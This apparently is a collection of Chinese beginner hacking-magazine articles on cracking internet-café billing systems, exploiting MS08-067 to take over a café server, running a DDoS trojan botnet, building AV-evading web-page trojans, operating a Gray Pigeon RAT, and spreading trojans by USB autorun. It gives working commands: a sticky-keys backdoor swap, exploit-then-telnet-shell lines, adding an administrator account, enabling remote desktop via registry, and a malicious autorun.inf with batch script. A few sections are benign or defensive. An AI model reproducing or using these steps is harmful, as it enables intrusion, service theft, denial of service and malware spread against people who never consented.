总结如下：粘滞键有四种方法可以调出。

- 快速按 5 次 Shift 键；
- 按住 Num Lock 键不放 5 秒钟；
- 按左边的 Shift + Alt + Num Lock 键；
- 按左边的 Shift + Alt + Print Screen Sys Rq 键。

这种破解的方法同样适合于没有屏蔽粘滞键的网吧，我们只需要修改一下批处理代码，然后自己生成就可以了。（本文所涉及到的批处理潜行者、相应的 bat 文件以及生成的 exe 文件已经收录到光盘中）

### 破解网吧收费系统之终结版

DrEam

#### 一、前言

关于破解网吧收费系统的文章有很多，包括了各种常见的收费系统，诸如 pubwin、美萍、万象等……作为菜鸟也深知各位小菜的痛苦，因此才写下本文。所谓终结版，就是希望菜鸟们看了，能够最大限度地学会破解各种收费系统。

#### 二、理论——分析问题

首先要明确我们的目的，就是为了实现对电脑的破解，做到不用卡也能够上网。我们要做的主要有以下三点：

- 在电脑中结束掉相关的收费程序。
- 将自启动中的启动项和相关的注册表项删除。
- 解决上广远程监控而重启系统的问题。

可以说，做到了以上这三点，对于网吧中的大部分收费系统，就都能够实现破解了。

#### 三、实践——实施破解

从理论上讲，任何的网吧管理程序都是能够破解成功的……下面我以万象为例，来介绍一下破解的过程。

要用到的软件是万象幽灵，启动后先利用万象密码读取功能查出登录密码，然后登录进入万象后台，取消“第几分钟检测与服务器的连接”……接下来再用“克星之王”进行处理（见图1～图5）。

#### 四、拓展——其他方法

由于每个网吧的实际情况并不完全相同，也就导致了许多小菜按照文中所介绍的方法进行破解时，并不一定百分百成功……只要结束了收费系统并防止电脑重启，能够实现这个目的，使用什么软件和方法就都不是重点。

我再给大家提供一个思路……利用“粘滞键后门”（将 cmd 替换 sethc），在登录界面按 Shift 调出 cmd，以系统权限对本地电脑进行破解，从而达到彻底解除收费系统的目的。

```cmd
ren c:\windows\system32\dllcache\sethc.exe sethc1.exe
copy /y c:\windows\system32\cmd.exe c:\windows\system32\sethc.exe
```

具体操作如下：先用自己的卡登录电脑，调出 cmd，执行上述命令……此时按 Shift 即可调出 cmd 并取得最高权限，进而结束万象等系统实现免费上网。

运行“超级防锁专家”，此时就会多出一个桌面，我们暂称为桌面B，原来的桌面就称为桌面A。切换回桌面A，然后到另外一台电脑上输入自己的帐号和密码，在点登录的一瞬间（由于卡已经在另外一台电脑上登录，所以会出现登录界面），按下 WIN+2 键，切换到桌面B，也就是使用软件打开的桌面，此时我们就会发现可以正常上网了。

做法也不是很安全，因为无论如何我们都要在另外一台电脑下掉自己的卡，服务端上就会显示该电脑闲置，但事实上我们却还在使用着，所以还是容易被发现。对于学黑的小菜来讲，掌握思路才是最重要的；比如我们还可以使用卡卡助手来破解收费系统，因为卡卡助手拥有进程结束、删除启动项和断开网络连接的功能等。不过我还是希望大家能够多多研究，多多看 X 档案，并把自己的破解技巧和心得发到 X 档案来和大家一起分享。

> （本文所涉及到的万象幽灵、克星之王、超级防锁专家已收录到光盘中）

#### 五、总结

事实上，破解网吧收费系统是没有多少技术含量的，这种……

### 虚拟桌面也来免费上网

我们学校的电子阅览室使用的也是金盘电子阅览室系统……下面我就给大家介绍如何利用虚拟桌面来实现免费上网。这个免费上网的方法非常简单，如果网吧限制不多的话，使用这个方法在网吧免费上网也是可以的……

桌面的软件，如图1。首先使用自己的帐号登录金盘，如图2，然后打开“追影虚拟多桌面”，此时软件就会自动虚拟出多个桌面……如果学校限制了多少时间无人登录后就自动关机的话，这个方法就不行了……

> （本文所涉及到的追影虚拟多桌面 V1.0.2 已收录到光盘中）

## MS08-067漏洞助我入侵——网吧服务器

黎德乐

前些日子微软公布了最新的 MS08067 漏洞，这个漏洞的危害性可是非常严重的，国内的牛人们在第一时间制作出了相应的漏洞利用程序……我先简单地介绍一下这个漏洞，漏洞名称为 Windows Server 服务 RPC 请求缓冲区溢出漏洞（MS08-067）……

……无需身份验证就可以利用该漏洞远程执行任意代码。漏洞利用工具是在 CMD 下运行的，因此在网吧中我们要先破解 CMD 的限制……比如我们要远程溢出的网吧电影服务器的 IP 地址是 10.8.8.246，就在 CMD 下输入 MS08067.exe 10.8.8.246……

```cmd
MS08067.exe 10.8.8.246
TELNET 10.5.8.246 4444
```

将 3389.reg 这个文件导入到注册表中，导入后就可以生效了。现在我们还不能登录，因为还没有登录帐号和密码呢。我们来建立一个系统用户，在命令提示符中执行 `net user gogo363S 123 /add` 和 `net localgroup administrators gogo363S /add` 命令就可以添加成功了，现在就可以登录进去参观了，如图3、图4。

3389 很少开启，那我们就来开启它吧。可以通过注册表来开启对方的 3389。由于在 XP 和 2003 系统下开启终端是不需要重启系统的，所以在开启后就可以直接登录。将下面的代码一行一行地复制到 cmdshell 窗口中并按回车执行：

```cmd
echo Windows Registry Editor Version 5.00 >3389.reg
echo. >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >>3389.reg
echo "fDenyTSConnections"=dword:00000000 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] >>3389.reg
echo "PortNumber"=dword:00000d3d >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000d3d >>3389.reg
```

执行完毕后，我们到 C 盘看看有没有 3389.reg，这时就会发现它已经乖乖地躺在里面了，如图2。接下来再执行 regedit / ...

（本文所涉及到的 MS08067.exe 已收录到光盘中）

## 续接第409页

将 AP0 中的 ROffset 与 RSize 值相加（如果数值大的话可以使用 16 进制计算器计算一下），记住 400 这个值。现在打开 Hex Workshop，将精锐神秘文件夹 V0.1.exe 载入并找到 000000400 位置，把从这行开始一直到最后的那些代码全部复制下来，然后载入 unpack_.exe，找到代码的最后位置，即 00063000 这行，在空白处粘贴，就会弹出警告，询问是否确认插入，点确定即可。粘贴上的代码其字体会变成红色，保存文件后就可以了。再次运行 unpack_.exe 文件，就发现可以正常运行了。

还有一款外挂程序 hxbd1.2.exe，脱壳后也需要进行附加数据的处理，壳的信息为“UPX 0.89.6 — 1.02 / 1.05 — 1.24 -> Markus & Laszlo [Overlay]”，这是一个双重壳，使用 2 次 ESP 定律就可以轻松搞定了。

```asm
004013FB  50            push eax
004013FC  53            push ebx
004013FD  51            push ecx
004013FE  2BC9          sub ecx,ecx
00401400  52            push edx
00401401  56            push esi
00401402  57            push edi
00401403  0F84 B3FDFFFF je hxbd1-2.004011BC
```

UPX 壳就脱完了，再次使用 ESP 定律就可以轻松脱壳程序。使用 Microsoft Visual C++ 6.0 同样需要附加数据处理，这里就不多说了，留给众位小菜去做练习吧！文章到这里就结束了，没什么技术含量，只是给那些刚入门的新手朋友一些比较容易理解的理论知识以及以前很少介绍过的知识。本人也刚刚学脱壳，还希望与 X 的新人们共同进步，提高，再多多指教。

（本文所涉及到的 OD、PEID、Import REConstructor、LordPE、Hex Workshop、精锐神秘文件夹、外挂程序已收录到光盘中）

### 蚂蚁军团的力量之流量也来洗刷刷

有许多朋友都拥有自己的网站吧，可是看着干巴巴的流量真是惨不忍睹，今天我就给大家介绍两款好用的工具，来让我们的网站流量洗刷刷。

先来介绍第一款工具——IP 流量刷，它可以使用代理浏览指定的网站。因为是通过代理浏览目标网站，所以也就可以让目标网站的流量迅速提高了。打开工具，在最右侧的“HTTP 代理 IP 获取来源”中选择代理中国（大家也可以选择免费代理网或者纯真数据），然后单击“获取代理 IP”按钮，可以看到 IP 列表框中提示正在获取 IP 代理，耐心地等待一会儿，就可以获得代理 IP 地址了，如图1。

现在该代理猎手出场了。运行代理猎手，在主界面的右侧选择“导入结果”按钮，把刚才获取的代理列表导入到工具中（可以把之前获取的 IP 列表保存为一个文本文件，然后在这里导入），如图2。在代理猎手的主界面中单击“验证全部”按钮，就可以对所有的代理 IP 地址进行检测了，如图3。

最后，经过代理猎手的检测可以得到验证结果，但是有很多结果都是没用的代理，所以要进行精简。精简的方法是单击“精简结果”按钮，在弹出的对话框中除了“Free”不选择外，其他的都勾选上，然后点“确定”，如图4。精简之后，在代理猎手的主界面中就只剩下所有 Free 的结果，也就是可用的代理，如图5。

我们把这些代理保存到一个文件中，然后放到 IPKing（IP 代理刷）中，在“输入网址”栏输入要刷流量的目标网站（我输入的是自己的个人网络硬盘地址），然后点击“开始运行”按钮，现在程序就开始刷起来了，如图6。

来到被刷流量的目标网站，可以看到在线人数变成了 5，如图7。使用这样的方式刷出的流量也是真实的，因为使用到了代理来刷目标网站的流量，所以是非常安全和“绿色健康”的。读者朋友还等什么，赶快加入到刷流量的行列中来吧。

图7

（文章中涉及到的工具 IP 流量刷、代理猎手，已经收录在光盘中）

### 巧做互联星空的多用户共享

王强

电信的“我的E家”广告估计大家都看过吧，主要特点是送无线 MODEM，同时支持一户最多 3 台电脑共享上网。可是当家里电脑多于 3 台时，该怎么实现多用户上网呢？可能有人会说买台路由器，或者把原来的无线猫改造为支持多用户共享，但这些方法对于菜鸟来说都不太适合：换路由要加钱，改造既麻烦又危险，于是就有了下面的解决方案！

#### 第一步：获取极速星空拨号密码

首先按照正常方式启动极速星空软件，进行一次正常的拨号，右键点击“我的电脑”→“管理”→“事件查看器”→“系统”，在右边的事件中会看到名为“RemoteAccess”的事件，双击后如图1所示。其中的“CSDxxxxx”就是账号，我们把它记录下来。为什么要进行这一步呢？因为电信通过极速星空软件将你原来的账号“CSJxxxx”进行了转换，转换结果就如图中所示。至于拨号的密码，一般我们会在业务受理单上看到，实在不记得了，还可以拨打 10000 号申请让电信服务人员上门帮你更换。

### 第二步：安装 EASYSHARE 并且进行设置

EASYSHARE 是一款国产的免费共享上网软件，它适合诸如图2所示的这种网络模式结构，支持通过软件的方式来破解电信“我的E家”共享上网。下载后一路点击 NEXT 就可完成安装，给所有的电脑都安装上 EASYSHARE 软件并定义所有参数：

- PC机1：IP地址 192.168.1.2  
- 子网掩码：255.255.255.0  
- 默认网关：192.168.1.254  
- DNS服务器：当地 ISP 指定地址  
- PC机2：IP地址 192.168.1.3  
- 子网掩码：255.255.255.0  
- 默认网关：192.168.1.254  
- DNS服务器：当地 ISP 指定地址  

图2  
图1  
图3  

如果以后有更多的电脑，则只要将 IP 地址设置为前三段相同、末位不同，比如第 3 台电脑 IP 为 192.168.1.4，第 4 台为 192.168.1.5……其他网关和 DNS 部分完全相同。启动任意一台电脑的 EASYSHARE，当它第一次启动时如图3所示，点击“上网设置”，分别设置好“家庭上网方式”及“上网的物理网卡”，在 ADSL 宽带密码处填入第一步得到的账号和密码。全部完成后点下方的“保存设置”，然后再点击“系统状态”→“开始连接”，正常的话如图4所示。

它的工作原理就是将局域网中第一台启动 EASYSHARE 的电脑自动作为主机，其他启动 EASYSHARE 的电脑自动作为客户机。

最后为了能够保证所有电脑共享上网正常，在软件设置中将 EASYSHARE 定义为随 WINDOWS 启动，任何一台先启动的电脑都会自动拨号，而其他电脑则直接共享上网。

### 1、为什么我点击“开始连接”按钮时提示 PPPoE 驱动失败？

这是因为 EasyShare 的驱动程序没有安装成功。我们可以查看选中物理网卡的属性，确认是否已经有“EasyShare Filter Driver”存在，并且复选框是选中状态。如果已经存在并且复选框也选中，那么就重新启动电脑后再试试看。如果没有看到该项目的存在，则再次运行安装程序即可。若还失败，则可能是电脑安装的杀毒或安全软件禁止了安装时添加驱动程序的操作，将杀软或安软退出后重装。

### 2、为什么提示网络连接成功，但是我仍然无法访问网站？

这可能是因为你的 DNS 设置不正确造成的，将该 DNS 设置到每个需要上网的电脑上。另外与默认网关设置也有关系，此处的默认网关应该是网络中并不存在的 IP 地址，即虚拟网关，一定不能定义为原无线路由的地址，比如 192.168.1.1，否则即使显示连接成功，却也不能上网。

### 菜鸟的好帮手——完美 DDoS

小兽同学开发了一款 DDoS 工具，使用 C++ 独立编写的代码，几乎集合了市面上所有攻击软件的优点。在他开发完成时我向他要了一份，测试了一下效果，感觉很不错，特拿出来和菜鸟们分享。

#### 一、配置服务端

运行完美 DDoS，其界面如图1所示。

定义服务显示名、服务名和服务描述，这样可以更好地进行伪装，以躲过管理员的查杀。同时它还具有 U 盘传播的功能，如果感染者重装了系统，当对方双击打开本地磁盘的时候，我们的肉鸡又将归来。

点击工具栏中的“生成服务端”来创建服务端程序。从弹出的“生成服务端”窗口中我们可以看到，服务端程序有两种上线方式，分别为 DNS 上线方式和 FTP 上线方式。但是 DNS 上线方式有一点不好的地方，就是端口不可以更改。

只有 25K，加个压缩壳将更小，非常方便下载和传播，如图2。

#### 二、控制服务端

当运行了服务端的电脑上线后，我们就可以控制对方了。在控制中可以点右键使用“文件管理”功能和“键盘记录”功能，如图3。由于是 DDOS 工具，远程控制方面的功能可有可无，因此我就不为大家介绍这些功能了。完美 DDOS 的攻击方式主要有 ICMP 洪水、SYN 洪水、TCP 并发式连接、UDP 洪水、TCP 并发攻击、GET 攻击、CC 攻击、CC 变异和 IIS 多连接。攻击强度分为疯狂、强和普通三种。可以设置当服务端上线后自动攻击指定的目标，无需手动设置；还可以分组攻击，同时攻击 N 个目标。它还具有批量下载功能，全选所有树下载也可以达到 DDOS 的效果。

#### 三、攻击效果测试

光说不练可不行，我们还是看看它的实际效果吧。我们就以 php 的官方网站 php.net 来进行测试。选定 80 台肉鸡，设置的攻击方式是无限 CC 攻击，如图4。单击“攻击”后，过了几秒钟 php 的官方网站 php.net 就不能访问了，如图5。这款 DDOS 的攻击效果还是相当不错的！

#### 四、服务端隐蔽性

完美 DDOS 的隐蔽技术是同类软件中从未出现过的，运行后无端口、无进程，抗查杀性很强。为菜鸟们推荐这款木马，一是因为它的服务端体积小、攻击效果强悍；二是因为它的隐藏技术。最主要的还是因为这个木马比较新，即使以后被查杀了，由于比较新，对服务端的免杀也会相对容易些。

### 揭开网页木马的神秘面纱

不知从什么时候起，网络上开始流行起网页木马攻击技术，至今还被很广泛地应用。相信没有接触过网马的朋友一定对此技术很好奇吧，当然也不排除你想当“砖家”，揪出藏在网页深处的木马，那么请看下面的网页木马全程揭秘吧。

#### 一、准备工作

在制作网页木马前，我们需要先准备好自己的木马，这里以 PcShare 为例。打开 PcShare，依次点击上方“设置”→“生成客户端”选项，在弹出的“被控制端执行程序参数”对话框内，将自己木马的 IP 地址以及想要生成的服务端名称填入到相应的位置，其他参数保持默认即可，如图1。点击“生成”按钮，选择好保存木马的路径，一款功能强大的木马服务端就生成了。把生成的服务端程序上传到自己的空间里。对于没有自己空间的小菜，我推荐使用 GooglePages。假设现在已经获得了木马下载地址为“http://wenpeng.googlepages.com/muma.exe”。

#### 二、生成网页木马

运行“黑手刃2008免杀网马”客户端程序，在弹出的“软件生成器”界面内，勾选上“漏洞选项”栏内的所有选择框，这样生成的网页木马才能突破被选中的漏洞，如图2。接下来在地址栏内输入刚才的木马链接地址“http://wenpeng.googlepages.com/muma.exe”，选择生成网马的方式。这里提供了两种方式：一种是 HTML 网页形式，另一种是 GIF 图片格式。针对新手朋友，我建议选择 HTML 网页形式。单击“生成”按钮后，就会在当前目录内生成多个网页木马文件了。如果你对生成的网页木马文件有些不放心，还可以在本机使用各种杀毒软件对生成的木马文件进行查杀。相信你得到的都是安全的“普通文件”。原因很简单，黑手刃对网页木马中的漏洞溢出代码进行了多次变化和加密，使得那些只按照特征码来查杀的杀毒软件根本就无法检测到恶意代码的存在。

图2、图3所示内容说明了网页木马代码以大量数字形式存在，从而绕过部分杀毒软件识别；攻击者可将还原后的恶意脚本插入正常网页，访问者若存在浏览器漏洞即可能被攻击并执行远程木马。

#### 三、解密网页木马

有加密自然就会有解密。文中以“迅雷”网页木马为例，展示其核心结构类似：先把 `JS` 代码赋值给变量，再用 `document.write` 输出执行。通过理解这一结构即可进行逆向还原。

```javascript
t=eval(String.fromCharCode("..."));
document.write(t)
```

文中进一步给出解密技巧：将 `document.write` 临时改为 `alert` 观察结果；若弹窗显示不全则改用 `<xmp>` 标签输出源码；并可结合字符串逆序函数（如 `strreverse`）恢复完整脚本。

> （本文所涉及到的 PcShare、黑手刃2008免杀网页木马生成器已收录到光盘中）

### 制作陷阱之 SHS 碎片文件

独孤梦

作者讲述误开文件时出现 `CMD` 窗口的经历，引出 `SHS` 文件概念：`SHS` 属于特殊的 `OLE`（对象链接与嵌入）对象，可由 Word/Excel 通过拖放文本或图片区域生成，常被称为“碎片文件”，其扩展名通常不可见，具有一定迷惑性。

在了解 SHS 原理后，文中说明可利用 Windows 中的对象打包程序 `packager.exe`（位于 `C:\Windows\System32`）来制作可触发命令的 SHS 文件。

示例步骤：先创建注册表文件（如 `red.reg`）；在对象打包程序中“文件→导入”任意文件（如 JPG）；再到“编辑”中的“命令行”填写示例命令：`cmd.exe /c del F:\我的小菜\red.reg`，确认后即可生成带命令行为的对象文件。

- 找到 `packager.exe`
- 导入伪装文件（如 JPG）
- 设置“命令行”参数
- 保存生成 SHS 碎片文件

然后在“编辑”菜单中选择“复制包”，如图3。最后，我们在桌面上点击右键，选择“粘贴”，这时我们就可以看到在桌面上创建了一个碎片对象文件，如图4。双击它，CMD 窗口一闪而过，再到 F 盘看看，red.reg 已经被删除了。

这个碎片对象文件保存了原来对象所具备的功能，原来对象包含的命令同样会被解析执行，这正是其可怕之处。如果在文件中包含了 format 之类的命令，后果不堪设想呀。

文件在执行后会多出来一个 msdtc.exe 的进程，关闭以后马上又会自动运行，而且你的那个碎片对象文件也不能删除。在我关闭了三次进程后，那个文件就可以删除了，删除以后 msdtc.exe 就不会再运行了！

我们要如何防范这类附件文件呢？可以从注册表中进行设置，使 SHS 文件的扩展名显示出来。来到注册表 `HKEY_CLASSES_ROOT\.shs` 主键下，将默认值 `shscrap` 删除，现在双击 `.shs` 文件就不会执行了。

现在随着病毒文件和恶意文件的不断演变，五花八门的文件附件也越来越多，这就需要我们在平时多多留心，了解其运行机制，从而避免掉入这些危害极大的陷阱中。（文中涉及到的 packager.exe 已经收录在光盘中）

### 禁止运行非法程序——从 QQ 说起

无敌小龙（张博）

有好多读者朋友都是做网络维护的吧，是不是老板下了命令，要让员工在工作期间无法运行和登录 QQ 这类聊天工具呢？那么怎么才能限制某些程序的运行和限制上网聊天呢？下边我就给大家介绍几种方法。

#### 一、DLL 文件法

首先给大家介绍一个文件 ws2_32.dll，它是个动态链接库文件，位于系统文件夹中。Windows 在查找动态链接库文件时，会先在应用程序当前目录搜索，如果没有找到，然后才会搜索 Windows 所在目录，如果还是没找到，就会搜索 system32 和 system 目录。几乎所有的网络程序一般都要调用这个 DLL 文件中的 API 函数进行网络通信，所以我的想法就是替换掉程序目录下面的 ws2_32.dll 文件。

具体做法是新建一个不具备 ws2_32.dll 文件功能的 dll 文件，然后替换程序目录下面的 ws2_32.dll 文件。因此一些网络程序在调用这样一个没有用的 DLL 文件后，就会导致无法正常运行。本方法适用于基于 NT 的系统，比如 WinXP/Win2000/Win2003。

如果我们要限制 QQ 的运行，就先找到 QQ 的安装目录，然后新建一个文本文档，最后修改文本文件的名称为 ws2_32.dll，其实这个文件只是一个空文件。现在再来运行 QQ，结果弹出了如图2所示的对话框。可以看到 QQ 因为调用了错误的 DLL 文件中的 API 函数而导致其无法正常运行。使用这种方法可以禁止几乎所有的网络程序运行。

大家在知道原理后，解除限制的方法也很简单，只要删除 ws2_32.dll 文件即可。

#### 二、IFEO 法

所谓的 IFEO 就是 Image File Execution Options，它位于注册表的 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 这个键值处。由于这个项主要是用来调试程序用的，对一般用户意义不大。如果在这个项下建立一个名为 qq.exe 的项，然后在其下建立一个键为 debugger，那么当运行进程为 QQ.EXE 的程序时，就会首先启动 DEBUGGER 下面的程序路径，而非你运行的程序所在路径。

我们编写一个注册表文件如下，然后保存为“禁止QQ运行.reg”。

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\qq.exe]
"debugger"="debugger.exe"
```

运行注册表文件“禁止QQ运行.reg”，可以看到注册表的 QQ.exe 项被修改成了如图3所示的样子。

现在来运行 QQ，可以看到 QQ 已经无法运行了，如图4。要解除因为 IFEO 而导致的 QQ 无法运行，只需要删除注册表中新建的那个 QQ.exe 项即可。

#### 三、组策略法

点击“开始”→“运行”，在弹出的“运行”栏中输入“gpedit.msc”，单击“确定”后，打开系统组策略编辑窗口，如图5。在打开的组策略中，依次展开该窗口中的“用户配置”→“管理模板”→“系统”，在对应“系统”项右边的子窗口中找到“不要运行指定的 WINDOWS 应用程序”，如图6。

双击后就会弹出“不要运行指定的 WINDOWS 应用程序”属性窗口，如图7，选择“已启用”，然后点击“不允许的应用程序的列表”后的“显示”按钮，在新出现的对话框中点击“添加”，在输入框中输入 QQ.exe，最后点击“确定”。这样就把 QQ.exe 加入到禁止运行的程序中了。经过上面的配置，确定保存，最后关闭组策略。现在再来运行我们的 QQ，可以看到 WINDOWS 系统已经禁止该程序的运行，如图8。如果要重新允许运行 QQ 程序，大家可以在“不要运行指定的 WINDOWS 应用程序”属性框中选择“未配置”单选钮。

#### 四、工具法

我给大家介绍一款工具，叫做“全面禁止程序运行”。选择要禁止的程序路径，比如我们选择 QQ 路径，然后点击“禁止运行”按钮，可以看到程序已经被加入到禁止程序列表中了，如图9。现在再来运行 QQ，已经提示无法运行了。

> （本文所涉及到的全面禁止程序运行 Ver1.2 已经收录到光盘中）

### 把机密文件隐藏到回收站

相信大家最反感的就是自己重要的文件被别人偷看吧。假如遇到好友借用电脑而又无法拒绝，但又不想自己的“机密文件”被他们看到，那该怎么办呢？不用担心，我给大家说一个小妙招：可以利用 WinRAR 把机密文件隐藏到回收站中（需要你的电脑上安装有 WinRAR，一般都有吧！实在没有就到网上下载一个吧）。利用回收站来隐藏文件还是有很多好处的：

- 回收站是存放“垃圾”文件的地方，不易被人注意到。
- 隐藏在回收站中的文件即使打开回收站也无法看到。
- 隐藏在回收站中的文件即使回收站被清空也不会被删除。

下面就来看看我是如何实施“保密作战”计划的吧。第一步，启动 WinRAR，在状态栏上点击磁盘图标，选择 C 盘，然后单击“Recycled”，打开 C 盘中的回收站文件夹，如图1。

第二步：在工具栏上点击“添加”，打开“压缩文件名和参数”的对话框，如图2，在“文件”选项卡点击“追加”，添加要隐藏的机密文件，如图3。

第三步：在“高级”选项中，点击“设置密码”，输入一个密码，同时勾选“加密文件名”，如图4。完成上述步骤后点击“确定”，你的机密文件就被打包隐藏在回收站里了。再进入资源管理器，你也就看不到。即便有人利用 WinRAR 在回收站文件夹中发现了这个压缩包，但由于文件名已经被加密，也无法打开这个压缩包。

如果自己要查看机密文件怎么办呢？方法很简单：启动 WinRAR 进入 C 盘回收站，选择要解压的机密文件压缩包，解压释放到指定文件夹即可，如图5。

最后，在整个过程中我们必须注意一点：由于 WinRAR 会记住上次关闭时打开的文件夹，所以为了防止机密文件压缩包被发现，操作完成后务必将 WinRAR 地址栏切换到其他路径，否则下次打开 WinRAR 时就会直接进入回收站。这样的话你的文件可能就会被发现哦。

> （本文所涉及到的 WinRAR 已收录到光盘中）

## 看我也玩转镜像劫持

邱若鹏

大家对镜像劫持都不陌生吧，许多病毒就是采用这种方法来躲过杀毒软件的查杀。所谓镜像劫持（IFEO），就是在注册表的“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options”处新建项并设置“Debugger”子键，从而劫持目标程序启动行为……

在平时的学习中难免会遇到同学借电脑的情况，如果不想删除某些程序，又希望临时限制其运行，就可以利用镜像劫持来实现。

而我们就可以利用镜像劫持了。要用到的工具是 CDD 映像劫持工具，如图1。工具界面简单，设置“输入/选择被劫持对象”和“输入/选择映射对象”后即可生效。

我们也知道很多功能强大的第三方系统工具，利用这类工具可达到替换的目的。工具不是使程序更强，而是看使用者如何发现并利用。


（文中涉及到的 CDD 映像劫持工具已经收录在光盘中）


### 小菜这样来拯救迅雷

丁维竹

这天我到网吧上网，想下载一部电影来看，没想到下载程序竟然不让安装。经过排查，下载完成后安装时连续弹出多个错误对话框（图1、图2、图3）。

从图2中可以看到，原来是在注册表中设置了禁止安装的项。找到该注册表项后，发现确有“黑名单”软件列表，如图4。


## 傻瓜黑客

当我要删除这个注册表项时却提示删除不了，如图5。我打开冰刃，找到如图6所示的这个注册表项，点击右键删除。这时我们再来重新安装迅雷，安装成功了，如图7。


当我双击迅雷的图标运行它时，却又弹出了如图8所示的一个对话框。到底是哪个程序限制了这次操作呢？我陷入了沉思中，后来我去问了一下 Google 大叔，他告诉我这和组策略有关，可以把迅雷从网吧的魔爪中拯救出来。

“本次操作由于这台计算机的限制而被取消。请与您的系统管理员联系。”这句话的出现应该和组策略有关。于是我马上按 Win+R 键调出“运行”窗口，输入 gpedit.msc 来打开组策略，依次打开“用户配置”→“管理模板”，点击“系统”，在右边找到“只运行许可的 Windows 应用程序”和“不要运行指定的 Windows 应用程序”这两项，把它们设置为“已禁用”，然后退出组策略，再次双击运行迅雷。没想到弹出的中文对话框变成了英文，如图9，点击确定，又弹出了一个对话框，如图10，再次点击确定，框框没了，迅雷还是没有运行。再次双击迅雷，这回总算成功运行，如图11。


### 内网之灰鸽子上线又有新招

magic.6_star


在内网中如何让灰鸽子上线是令不少菜鸟们很头疼的一个问题。在第六期杂志中，mutoum 同学向我们介绍了利用 vnn 实现内网中灰鸽子上线的教程，感觉很新鲜，于是我马上下载了一个。安装完毕后运行，按照书上的提示进行注册，结果却发现无论怎样填写都会返回“no”。这是为什么呢？研究了半天，还是没有头绪，郁闷之下跑到 vnn 的官方论坛求助，发现了好多询问该问题的帖子，原来遇到麻烦的人还不止我一个啊！最后我找到了管理员的 QQ，加为好友后询问，对方回答说：“由于 vnn3 个人版的负载已经达到最大值，出现了一些不稳定的情况，因此我们暂时关闭了注册。”唉，vnn 不能使用了，那灰鸽子要如何才能上线呢？我只好踏上了艰苦的探索之旅。好在最终还是被我找到了在内网中上线的方法，一个人不敢藏私，马上拿出来贡献给大家。

我们要用到的工具主要有南北网桥网络加速器、南北网桥加速器无限使用破解版以及灰鸽子控制端一个。打开南北网桥网络加速器的安装程序，然后按照提示进行安装。安装前需要确保系统开启了 Telephony、Protected Storage 和 Routing and Remote Access 服务，否则会出现如图1所示的提示信息。另外还要注意，加速器不适合于 Windows 9x 和 Vista 系统，对于经过服务优化的 Windows 2000 以上操作系统和精简的操作系统，需要将系统缺少的文件拷贝到 system32 目录下。对于设置严格的防火墙系统，比如限制严格的企业网、校园网环境，也将无法连接。我第一次去网吧测试时就遇到了软件不允许安装的问题，不过这并不是我们今天要研究的问题。


该软件的安装很傻瓜，不牵扯系统注册服务，因此大家可以先在别处安装好，再把安装文件夹打包上传到空间中，遇到不允许安装的时候，直接下载压缩包，解压后运行主程序即可。

由于是收费软件，“南北网桥”需要缴费注册才能使用，不过软件自身也提供了一个测试账号，账号和密码均为 test。登录测试账号，根据你的情况选择“网通”或“电信”，当“公网模式”不行时可以换为“内网模式”，一般都能登录上去，如图2。


登录成功后，我们调出 cmd 命令提示符，输入命令 ipconfig 来查看返回结果，发现多出了个 IP 地址 10.10.3.101，如图3。灰鸽子在配置时的上线 IP 地址就要用到它。现在转入另一个话题，由于测试账号有登录体验时间限制，为了解决这个问题，这里就要用到另一个软件“南北网桥加速器无限使用破解版”。

打开后点击“开通无限使用”，就可以发现测试账号的时间已经停止了，如图4，这样无需注册我们就可以享受 VIP 服务，还不错吧！


我们打开灰鸽子来配置服务端，这和六期杂志中的一样，先去“www.3326.com”注册一个 ID，然后申请免费空间。免费空间申请好后，就可以使用 FTP 进行 IP 更新了，如图5。上传成功后打开地址查看 IP 更新，果然没错，如图6，现在就可以放心地配置灰鸽子了。生成服务端后我使用本机进行了测试，运行服务端稍等片刻后就能看到肉鸡已经上线了，如图7，至此肉鸡灰鸽子上线测试成功完成。

> （本文所涉及到的南北网桥网络加速器、南北网桥加速器无限使用破解版补丁、灰鸽子2008贺岁版已经收录到光盘中）


### 菜鸟也来用 autorun.inf 传播木马

柘木公子樱

记得在以前的杂志里曾经介绍过如何利用 U 盘到打印室来传播灰鸽子的，不过传统的 autorun.inf 都是直接“open=木马.exe”，但这样有一个缺点就是直接双击打不开。现在的用户都学聪明了，一旦双击打不开就会意识到出了问题，而且对于陌生的 U 盘一般也不会直接双击打开的，要么是使用鼠标右键打开，要么是在资源管理器中打开，这样单纯的一句“open=木马.exe”是没办法传播我们的木马的。

对于使用鼠标右键和在资源管理器中打开的方法，要想突破也很简单，只要把我们的 autorun.inf 改成下面这样就可以了：

```ini
[autorun]
OPEN=木马.EXE
shell\open=打开(&O)
shell\open\Command=木马.EXE
shell\open\Default=1
shell\explore=资源管理器(&X)
shell\explore\Command=木马.exe
```

这样不管对方是使用鼠标右键打开还是在资源管理器中打开都会运行我们的木马，但这样仍然有个问题没有解决——双击无法打开 U 盘！以前我曾经中过一个叫做 360safe.exe 的病毒，它会在每个磁盘下生成一个 autorun.inf 和一个病毒文件，但是我双击打开磁盘却可以打开。这一点让我很奇怪，后来发现它是这样实现的：首先还是在 U 盘里存放一个 autorun.inf 文件，但是这个 autorun.inf 打开的不是木马，而是一个批处理文件，而这个批处理文件的作用就是打开我们的木马并删除 autorun.inf，这样双击就可以打开磁盘了。批处理的内容如下（假设 U 盘盘符为 h）：

```bat
@echo off
h:
h123.exe
del /s /q /f h:\autorun.inf
del %0
c:\start\h
```

不过这种方法还不够完美，因为批处理文件在运行时会出现 cmd 窗口，我们可以使用批处理潜行者这个工具把 BAT 文件生成一个 EXE 文件，并实现隐藏运行。打开批处理潜行者，如图1，选择无 cmd 窗口并生成 EXE，这样生成的 EXE 文件在运行的时候就没有 cmd 窗口了。大家只要把 autorun.inf 指向这个 EXE 文件就可以了。


> （本文所涉及到的批处理潜行者已经收录到光盘中）

## 傻瓜黑客


